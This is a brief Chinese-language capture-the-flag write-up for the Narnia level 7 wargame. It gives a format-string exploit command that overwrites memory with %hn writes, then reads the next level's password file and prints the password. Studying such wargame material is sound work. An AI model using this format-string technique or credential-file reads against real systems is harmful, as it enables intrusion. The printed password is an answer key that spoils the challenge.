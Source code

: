 ### 解題思路
暴力破解

./narnia7 $(perl -e 'print "\xa8\xd3\xff\xff\xaa\xd3\xff\xff"')%37639x%2\$hn%29941x%3\$hn

cat /etc/narnia_pass/narnia8: i1SQ81fkb8